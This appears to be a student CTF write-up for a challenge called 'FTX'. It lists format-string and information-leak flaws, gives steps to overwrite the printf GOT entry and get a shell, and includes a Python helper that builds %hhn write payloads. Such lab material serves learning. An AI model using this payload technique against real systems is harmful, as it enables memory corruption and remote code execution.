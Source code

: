 FTX
===========================

General overview of problems faced
-------------------------------------
Unable to redirect target address to win address for a similar issue as observed in formatrix (or at least I believe so).

List of vulnerabilities
--------------------
- change_handle() constructs a format string based on user input -> allows arbitrary reads and writes
- value of name is printed when gamble is won

Steps to exploit
------------------
- Find offset at which buffer begins by injecting %p into user handle (ensuring it is not space separated)
- Run gamble function and select number that is not a fibonacci number
- Using the buffer offset, construct a format string that overwrites printf GOT to redirect to win function. This requires calculation of the base offset to defeat ASLR (using the buffer address found). 
- Change handle to format string and run gamble function again to process format string and gain shell access.

Script/Command used
------------------
```python

def build_format_string(target, goal, start_byte=1, max_write=8):
    WRAP = 0x100

    bytes_list = [(goal >> (8 * i)) & 0xff for i in range(max_write)]
    writes = [(byte_value, index) for index, byte_value in enumerate(bytes_list)]
    writes.sort(key=lambda x: x[0])

    payload = b''
    written = 0 

    for idx, (byte_value, i) in enumerate(writes):
        to_write = (byte_value - written) % WRAP
        if to_write > 0:
            payload += f"%{to_write}c".encode()
            written += to_write
        param_index = start_byte + idx
        payload += f"%{param_index}$hhn".encode()

    padding = b'A' * ((8 - (len(payload) % 8)) % 8)
    payload += padding

    for _, i in writes:
        payload += p64(target + i)

    return payload

def is_perfect_square(n):
    if n < 0:
        return False
    root = int(math.isqrt(n))
    return root * root == n

def is_fibonacci(n):
    n = int(n)
    return is_perfect_square(5 * n * n + 4) or is_perfect_square(5 * n * n - 4)

```